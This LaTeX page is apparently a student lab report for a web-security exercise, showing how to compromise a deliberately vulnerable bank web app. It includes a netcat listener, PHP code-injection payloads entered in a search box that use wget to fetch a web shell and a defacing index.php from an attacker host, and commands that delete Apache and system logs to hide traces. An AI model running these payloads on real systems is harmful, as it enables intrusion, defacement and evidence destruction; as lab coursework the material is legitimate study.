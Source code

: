 \documentclass[12pt]{report}
\begin{document}
	\paragraph*{7.}{\bf Suppose you are an anonymous attacker:
		\begin{itemize}
			\item Upload a web shell on the victim server and show that you can take control of the server.
			\item Deface the main bank page.
			\item Clear possible traces that could lead to you.
		\end{itemize} }
	
	To upload a shell,\\
	
	In attacker's machine: {\sf nc -v -n -l -p 1234}.
	In victim's machine, we run this command using the search box: {\sf '.system("wget -N 0.0.0.0:5000/static/shell.php").'}\\
	From the attacker's machine we are able to access the shell.
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_1.jpg]}
		\caption{shell uploaded.}
	\end{figure}
	
	To Deface the main page,\\
	
	In the attacker's end, there was a index.php file made in {\sf /var/www/html/static/} folder. Attacker will simply run 'wget' to download that file on victim's machine, which will replace victim's index.php.\\
	Command to use in search field: {\sf '.system("wget -N 0.0.0.0:5000/static/index.php").'}
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_2.jpg]}
		\caption{Webapp defaced.}
	\end{figure}
	
	To clear possible traces,\\
	
	Traces can be generally found in log files. Attacker can remove those logs by including 'rm' commands. Also the 'index.php' and 'shell.php' could be deleted.\\
	Command to delete files: \\
	{\sf '.system("rm /var/log/apache2/*").'}\\
	{\sf '.system("rm /var/log/syslog").'}\\
	{\sf '.system("rm /var/log/user.log").'}\\
	{\sf '.system("rm /var/www/html/shell.php").'}\\
	{\sf '.system("rm /var/www/html/index.php").'}\\
	
\end{document}
